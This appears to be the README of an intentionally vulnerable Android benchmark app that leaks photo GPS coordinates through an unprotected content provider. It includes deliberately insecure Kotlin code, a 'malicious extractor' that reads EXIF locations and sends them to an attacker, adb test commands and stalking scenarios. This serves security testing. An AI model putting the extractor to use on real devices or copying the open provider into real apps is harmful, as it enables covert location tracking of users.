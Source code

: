 # oxo-android-ben61: Location Exposure via Camera Metadata

## Vulnerability Overview

Location Exposure via Camera Metadata occurs when Android camera applications embed GPS coordinates in photo EXIF metadata and expose these photos through unsecured content providers, allowing malicious apps to extract precise location data without requesting location permissions from the user.

## Attack Vector: Camera EXIF Metadata Location Extraction

**Brief Explanation**: A camera app that captures photos with embedded GPS coordinates and makes these photos accessible to other apps through unprotected content providers. Malicious apps can read the EXIF metadata to extract precise location information without requiring location permissions, effectively bypassing Android's location access controls.

**Key Characteristics:**
- GPS coordinates embedded in photo EXIF metadata during capture
- Photos exposed through unsecured content providers
- Location data extraction without location permissions
- Bypass of Android's location permission system via metadata access
- Historical location tracking through photo timeline analysis

**Vulnerable Code Pattern:**
```kotlin
// VULNERABLE: Camera app with unsecured content provider
class MainActivity : ComponentActivity() {
    fun capturePhotoWithLocation() {
        val locationManager = getSystemService(Context.LOCATION_SERVICE) as LocationManager
        val location = locationManager.getLastKnownLocation(LocationManager.GPS_PROVIDER)
        
        // Capture photo and embed GPS coordinates in EXIF
        val photoFile = File(getExternalFilesDir(Environment.DIRECTORY_PICTURES), 
                           "IMG_${System.currentTimeMillis()}.jpg")
        
        // VULNERABLE: GPS coordinates stored in EXIF metadata
        location?.let {
            val exif = ExifInterface(photoFile.absolutePath)
            exif.setLatLong(it.latitude, it.longitude)
            exif.setAttribute(ExifInterface.TAG_GPS_TIMESTAMP, 
                             System.currentTimeMillis().toString())
            exif.saveAttributes()
        }
        
        // Store photo info in content provider
        storePhotoMetadata(photoFile.absolutePath, location != null)
    }
}

// VULNERABLE: Unsecured content provider exposing photo metadata
class PhotoProvider : ContentProvider() {
    override fun query(uri: Uri, projection: Array<String>?, selection: String?, 
                      selectionArgs: Array<String>?, sortOrder: String?): Cursor? {
        val cursor = MatrixCursor(arrayOf("_id", "file_path", "timestamp", "has_gps"))
        // VULNERABLE: No permission check - Any app can access photo metadata
        photos.forEach { photo ->
            cursor.addRow(arrayOf(photo.id, photo.filePath, photo.timestamp, photo.hasGPS))
        }
        return cursor
    }
}
```

**Malicious Extractor Code:**
```kotlin
// MALICIOUS: Extracts GPS coordinates from photos without location permissions
class LocationExtractorReceiver : BroadcastReceiver() {
    fun stealLocationFromPhotos(context: Context) {
        // Query vulnerable content provider for photos
        val photoUri = Uri.parse("content://co.ostorlab.myapplication.photos/photos")
        val cursor = context.contentResolver.query(photoUri, null, null, null, null)
        
        cursor?.use {
            while (it.moveToNext()) {
                val filePath = it.getString(it.getColumnIndex("file_path"))
                val hasGPS = it.getInt(it.getColumnIndex("has_gps")) == 1
                
                if (hasGPS) {
                    // Extract GPS coordinates from EXIF metadata
                    extractLocationFromPhoto(filePath)
                }
            }
        }
    }
    
    private fun extractLocationFromPhoto(filePath: String) {
        try {
            val exif = ExifInterface(filePath)
            val latLong = FloatArray(2)
            
            if (exif.getLatLong(latLong)) {
                val latitude = latLong[0].toDouble()
                val longitude = latLong[1].toDouble()
                val timestamp = exif.getAttribute(ExifInterface.TAG_GPS_TIMESTAMP)
                
                // STOLEN: GPS coordinates from photo metadata
                Log.d("LOCATION_STOLEN", "Photo taken at: $latitude, $longitude at time: $timestamp")
                
                // Send stolen location data to attacker server
                sendLocationToAttacker(latitude, longitude, timestamp)
            }
        } catch (e: Exception) {
            Log.e("LocationExtractor", "Failed to extract location", e)
        }
    }
}
```
## Testing

```bash
# Install exiftool for GPS extraction (required for vulnerability demonstration)
sudo apt update && sudo apt install -y exiftool

# Install the vulnerable camera app
adb install -r oxo-android-ben61.apk

# Launch Camera Pro
adb shell am start -n co.ostorlab.myapplication/.MainActivity

# Grant location permission for GPS embedding
adb shell pm grant co.ostorlab.myapplication android.permission.ACCESS_FINE_LOCATION

# Capture photo with GPS coordinates (click the camera button)
sleep 2 && adb shell input tap 360 800

# Check if photos are accessible via content provider
adb shell content query --uri content://co.ostorlab.myapplication.photos/photos

# Query specific photo metadata
adb shell content query --uri content://co.ostorlab.myapplication.photos/photos/1

# Extract EXIF GPS data from photo files (if accessible)
adb shell run-as co.ostorlab.myapplication ls /data/data/co.ostorlab.myapplication/files/Pictures/

# Simulate malicious app accessing photo metadata
python3 exploit_test.py

# Monitor for location data extraction in logs
adb logcat -s LocationExtractor:D LOCATION_STOLEN:D

# Verify content provider exports photos without permission checks
adb shell dumpsys package co.ostorlab.myapplication | grep -A 10 "ContentProvider"
```

**Expected Results:**
```
Content Provider Query:
Row: 0 _id=1, file_path=/storage/.../IMG_20250828_135340.jpg, timestamp=1756389220545, has_gps=true

EXIF GPS Data (extracted from photo):
GPS Latitude: 40.7128
GPS Longitude: -74.0060  
GPS Timestamp: 2025-08-28 13:53:40
GPS Processing Method: fused

Exploit Test Output:
[+] Photos found: Row: 0 _id=1, file_path=..., has_gps=true
[+] Photo metadata: Row: 0 _id=1, file_path=..., timestamp=1756389220545, has_gps=true
[!] VULNERABILITY CONFIRMED: GPS location data exposed
```

**Difficulty**: Medium-High

## Impact Assessment

- **Confidentiality**: Critical - Complete exposure of historical and current location data through photo metadata
- **Integrity**: Low - Metadata can reveal location patterns but cannot be easily modified  
- **Availability**: Low - Does not affect camera functionality but enables privacy violations
- **OWASP Mobile Top 10**: M2 - Insecure Data Storage, M6 - Insecure Authorization, M10 - Extraneous Functionality
- **CWE**: CWE-200 (Information Exposure), CWE-552 (Files or Directories Accessible to External Parties), CWE-284 (Improper Access Control)

## Camera Metadata Attack Scenarios

1. **Historical Location Tracking**: Analyzing photo metadata to build timeline of user locations
2. **Social Engineering**: Using photo locations for targeted attacks based on frequented places
3. **Stalking/Harassment**: Tracking victim's movements through shared or stolen photos
4. **Corporate Espionage**: Extracting business locations and meeting places from employee photos  
5. **Privacy Violation**: Accessing sensitive location data without explicit location permissions

**Example Attack Flow:**
```bash
# 1. User installs camera app and grants location permission for geotagging
# 2. Malicious app installs without requesting any location permissions
# 3. Camera app captures photos with GPS coordinates in EXIF metadata
# 4. Photos stored and exposed via unsecured content provider
# 5. Malicious app queries content provider to access all photos
# 6. EXIF metadata extracted revealing precise GPS coordinates and timestamps
# 7. Complete location history reconstructed without location permissions
```

This vulnerability demonstrates how location data can be leaked through indirect channels like photo metadata, bypassing traditional permission controls and enabling covert location tracking.

